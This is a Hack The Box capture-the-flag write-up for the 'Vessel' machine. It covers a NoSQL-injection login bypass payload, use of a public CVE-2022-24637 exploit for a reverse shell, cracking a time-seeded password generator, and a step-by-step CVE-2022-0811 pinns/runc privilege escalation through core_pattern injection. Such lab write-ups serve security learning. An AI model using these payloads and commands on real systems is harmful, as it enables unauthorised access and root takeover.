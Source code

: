 ```yaml
---
title: "Hack The Box - Vessel [Hard]"
date: 2023-02-12T10:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


# Overview

Since it becomes very time consuming doing this in a video this write-up is going to be in a text.

The machine is labeled hard with a good reason, most of the tasks are time consuming but there are some interesting vulnerabilities like [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) and [CVE-2022-24637](https://www.exploit-db.com/exploits/51026).

On top of these we have [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) and some PE reverse engineering.

# Write-up

### Flag 1

First I began enumerating the whole website with `ffuf`.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u "http://vessel.htb/FUZZ" -fs 26
```

With that I discovered a folder called `dev` which then led me to dumping the git repository of the website:

```
$ git-dumper http://vessel.htb/dev/.git ./website_dump
```

With the website avaliable, I can check the actual source code for vulnerabilities, immediately after opening the `routes/index.js` I have noticed that this code might be vulnerable to NoSQL Injection.

```javascript
...
let username = req.body.username;
let password = req.body.password;
if (username && password) {
connection.query('SELECT * FROM accounts WHERE username = ? AND password = ?', [username, password], function(error, results, fields) { ...
```

The code doesn't check if the passed values if they are objects, I can use a crafted NoSQL payload to successfully login 
with the admin user using this payload while doing the POST request:

```
username=admin&password[password]=1
```

Upon another discovery in the admin panel, I found that there is another domain on the host called `openwebanalytics`. From further investigation over what can be exploted there I have landed on [CVE-2022-24637](https://www.exploit-db.com/exploits/51026). With that exploit I could run a successful reverse shell on the machine. 

Using [linpeas](https://github.com/carlospolop/PEASS-ng) I found some useful information over the user `steven`

```
/home/steven/passwordGenerator # Windows PE Exectuable
/home/steven/.notes/screenshot.png # Screenshot of some program
/home/steven/.notes/notes.pdf # Password protected PDF
```

I suspected that the `screenshot.png` is am image of the `passwordGenerator`.On the other hand the `passwordGenerator` was unusually big and the whole use of that binary is to create 'secure' passwords. I noticed the python icon on the binary and I suspected that this could be a packed python project with `PyInstaller`. I confirmed that when I loaded the whole thing in Ghidra/IDA.

I have used [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract the `*.pyc` files, and then the [uncomplyle6](https://pypi.org/project/uncompyle6/) to decompile the `*.pyc` files. Which has led me to the actual source code of the binary:

This is the function that generates the password:

```python
def genPassword(self):
        length = value
        char = index
        if char == 0:
            charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
        else:
            if char == 1:
                charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
            else:
                if char == 2:
                    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890'
                else:
                    try:
                        qsrand(QTime.currentTime().msec())
                        password = ''
                        for i in range(length):
                            idx = qrand() % len(charset)
                            nchar = charset[idx]
                            password += str(nchar)

                    except:
                        msg = QMessageBox()
                        msg.setWindowTitle('Error')
                        msg.setText('Error while generating password!, Send a message to the Author!')
                        x = msg.exec_()

                return password
```

I edited the `length` to 32 (as I have it on the screenshot) and edited the script a bit more to create a list out of possible passwords. I can do that because the `QTime.currentTime().msec()` function returns the numbers from 1-1000 with that range I have a big chance of guessing the generated password.

> **Note**: This process can be a bit frustrating since it takes time to generate the passwords. I personally spent little over an hour.

Then I used `pdfcrack` to crack the password of the PDF, there I found the password for the user `ethan` and I successfully logged in with it and I found the first flag.

### Flag 2

I ran `linpeas.sh` again, and I found the following `SUID` binary:

```
...
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root ethan 814936 Mar 15  2022 /usr/bin/pinns    
...
```

I searched around a bit what is this, and I landed on the [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) which exploited this binary. While doing this, I noticed that I also have the `runc`. 

```                                                                                               
╔══════════╣ Container related tools present
/usr/sbin/runc       
```

This was a very tricky one, and it needs some understanding of what's going on to successfully execute the attack. You can check out the link I've provided for [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) to understand more about it. On the actual POC they have used Kubernetes, on our end I had to use  `runc`.

The parameters that are being passed to `pinns` are not being sanitized and validated, so I can use that to execute code with root access.

I needed to create a container using the `runc` without using `root` so I've used the `--rootless` arg.

Reference: https://github.com/opencontainers/runc/#rootless-containers

```
$ mkdir /tmp/syl
$ cd /tmp/syl/
$ runc spec --rootless
$ mkdir rootfs
$ echo "chmod +s /usr/bin/bash" > syl.sh
```

Then I should mount the root to the root of the container:

Reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation

```
$ runc --root /tmp/syl/ run alpine
# cat /etc/machine-id
c4ca4238a0b923820dcc509a6f75849b
```

This will run the container and spawn a shell. Next I would ssh into the machine from another session to execute the `pinns` binary to our container. 

```
$ /usr/bin/pinns -d /var/run -f c4ca4238a0b923820dcc509a6f75849b -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/syl/syl.sh #' --ipc --net --uts --cgroup
```

Then I need to trigger a core dump so that the `pinns` would execute the script in a case of a core dump. Following the PoC in crowdstrike:

```
# ulimit -c unlimited
# ulimit -c
unlimited
# tail -f /dev/null &
# ps
.. Find the `tail -f /dev/null` PID
# kill -SIGSEGV {thePID}
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```

Back to the other session

```
$ bash -p
$ cat /root/root.txt
{HASH}
```
